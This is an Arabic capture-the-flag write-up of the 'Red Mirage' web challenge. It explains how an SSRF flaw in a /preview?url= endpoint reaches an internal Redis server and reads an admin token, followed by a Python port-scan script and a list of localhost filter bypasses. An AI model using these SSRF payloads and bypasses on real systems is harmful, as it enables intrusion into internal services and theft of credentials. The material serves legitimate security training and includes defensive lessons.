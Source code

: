 # redMirage

### [writeup](https://medium.com/@aliyasser0115139/red-mirage-challenge-writeup-the-mirage-that-shattered-6ca0de7d9fe8)

---

# Red Mirage CTF Writeup – SSRF & Redis Exploitation

## مقدمة
تحدي Red Mirage بيقع ضمن فئة **Web Exploitation / SSRF**.  
الموقع بيوفر خاصية لمعاينة روابط عن طريق endpoint `/preview?url=`.  
الثغرة كانت إننا نقدر نستغل الميزة دي للوصول لخدمات داخلية غير مخصصة للمستخدمين.

---

## ما هو SSRF؟
**SSRF (Server-Side Request Forgery)** هي ثغرة بتسمح للمهاجم بخداع السيرفر عشان يزور URLs هو نفسه مش المفروض يزورها.  
ده ممكن يستخدم للوصول لخدمات داخلية زي قواعد بيانات، Redis، أو حتى الـ cloud metadata.

---

## Redis – نظرة سريعة
- **Redis** قاعدة بيانات in-memory سريعة جدًا بتخزن بيانات على شكل key-value.  
- بتُستخدم غالبًا في:
  - تخزين الـ sessions
  - caching
  - queues
- البروتوكول بتاعها مش HTTP، لكنه بسيط وبيشتغل على TCP افتراضيًا على المنفذ **6379**.

---

## اكتشاف Redis داخليًا
### 1. جرب الوصول إلى localhost
```
/preview?url=http://127.0.0.1
```
لو السيرفر بيرد، ده معناه إنه بيقدر يوصل للخدمات الداخلية.

### 2. جرب بروتوكولات مختلفة
```
/preview?url=redis://127.0.0.1:6379/
```
لو البروتوكول `redis://` مقبول، غالبًا Redis شغالة.

### 3. فحص المنافذ (Port Scan)
- جرب منافذ شائعة: 80, 443, 6379, 3306, 27017 … إلخ
- باستخدام SSRF:
```
/preview?url=http://127.0.0.1:6379
```
- لو رجع خطأ مختلف عن "Connection refused"، يبقى المنفذ مفتوح.

### 4. ملاحظة مهمة
استخدام `http://` هنا بس عشان نعمل اختبار مبدئي للمنفذ، مش علشان Redis بتتكلم HTTP.

---

## استغلال Redis
بمجرد اكتشاف Redis مفتوح على 6379، نستخدم بروتوكول `redis://`:
```
/preview?url=redis://127.0.0.1:6379/GET%20admin_token
```
ده بيرجع قيمة `admin_token`.

---

## استخدام التوكن
بعد ما نجيب التوكن:
```
Jj7YWT7wYyUSsDre8EfbKu05t3lQdeV3PyVJ
```
بنستخدمه للوصول لـ endpoint محمي:
```
/admin/flag?token=Jj7YWT7wYyUSsDre8EfbKu05t3lQdeV3PyVJ
```
بيرجع JSON فيه الفلاج:
```
{
  "flag": "nileN1nja{...}",
  "message": "Congratulations! You've successfully exploited the SSRF vulnerability.",
  "success": true
}
```

---

## الدروس المستفادة
- لازم تمنع **بروتوكولات غير HTTP/HTTPS**.
- ممنوع الوصول لعناوين داخلية زي `127.0.0.1`, `169.254.x.x`, `::1`.
- حماية الخدمات الداخلية زي Redis بكلمة مرور أو فايروال.
- الاعتماد على توكن واحد في المصادقة ضعيف جدًا.

---

## خطوات الهجوم بشكل مختصر
1. اكتشاف endpoint فيه SSRF (`/preview?url=`).
2. تجربة الوصول لـ 127.0.0.1 ومنافذ شائعة.
3. تأكيد وجود Redis على المنفذ 6379.
4. استخدام بروتوكول redis:// لتنفيذ أوامر GET.
5. استخراج `admin_token`.
6. استخدام التوكن للوصول لـ `/admin/flag` والحصول على الفلاج.























----
---
---

<details>
  <summary>know ports open on ssrf</summary>


# اكتشاف المنافذ المفتوحة عبر SSRF – شرح عملي

## مقدمة
في اختبارات الاختراق وCTFs، SSRF أحيانًا بيكون مدخلك لفحص الشبكة الداخلية للسيرفر.  
ممكن نستغل الـ SSRF لنعرف أي المنافذ (Ports) مفتوحة على localhost أو شبكات داخلية.

---

## ليه بنعمل Port Scanning عبر SSRF؟
- نعرف الخدمات الداخلية اللي مش مكشوفة للعالم الخارجي.
- نحدد هل في Redis, MySQL, MongoDB، إلخ.
- نجهز نفسنا للاستغلال بعد ما نعرف الخدمة المفتوحة.

---

## الطرق المستخدمة

### 1. تجربة بروتوكولات مختلفة
SSRF أحيانًا بيسمحلك تستخدم بروتوكولات متعددة زي:
- `http://`
- `file://`
- `gopher://`
- `redis://`

لو `redis://` شغال وبيستجيب → في خدمة Redis على السيرفر.

---

### 2. تجربة منافذ معروفة
نبدأ بالمنافذ الشائعة للخدمات:

- **3306** → MySQL
- **5432** → PostgreSQL
- **6379** → Redis
- **27017** → MongoDB
- **80/443** → HTTP/HTTPS
- **8080, 5000** → Web apps dev/test

نغير `url=` زي كده:
```
/preview?url=http://127.0.0.1:6379
```
- لو رجع خطأ مختلف عن "Connection refused"، يبقى المنفذ مفتوح.

---

### 3. Port Scanning كامل خطوة بخطوة

#### **خطوة 1:** تأكد إن SSRF بيقدر يوصل localhost
```
/preview?url=http://127.0.0.1
```
لو في استجابة، يبقى نقدر نكمل.

#### **خطوة 2:** جرّب كل منفذ محتمل
نعمل script صغير (مثال Python) يجرب منافذ محددة:

```python
import requests

target = "http://vulnerable.site/preview?url=http://127.0.0.1:"
ports = [80, 443, 6379, 27017, 3306, 8080, 5000]

for port in ports:
    url = target + str(port)
    r = requests.get(url)
    if "Connection refused" not in r.text:
        print(f"[+] Port {port} might be open!")
```

#### **خطوة 3:** لو منفذ مفتوح
- نحدد نوع الخدمة (Redis, MySQL, إلخ).
- نستخدم البروتوكول المناسب:  
  - `redis://` لـ Redis  
  - `mysql://` لـ MySQL (نادراً)  
  - أو نكلم الخدمة مباشرة بأوامرها.

---

## ملاحظات مهمة
- بعض الفلاتر تمنع `127.0.0.1` أو `localhost` → نستخدم bypass مثل:
  - `http://2130706433`
  - `http://0x7f000001`
  - `http://127.1`
  - `http://[::1]`

- بنبدأ بالمنافذ المشهورة وبعدها لو محتاجين نعمل brute-force أوسع.

---

## الخلاصة
1. تأكد إن SSRF يقدر يوصل عناوين داخلية.  
2. اعمل Port Scan على المنافذ الشائعة.  
3. لو لقيت منفذ مفتوح → حدد الخدمة واستغلها ببروتوكولها المناسب.







  
</details>






















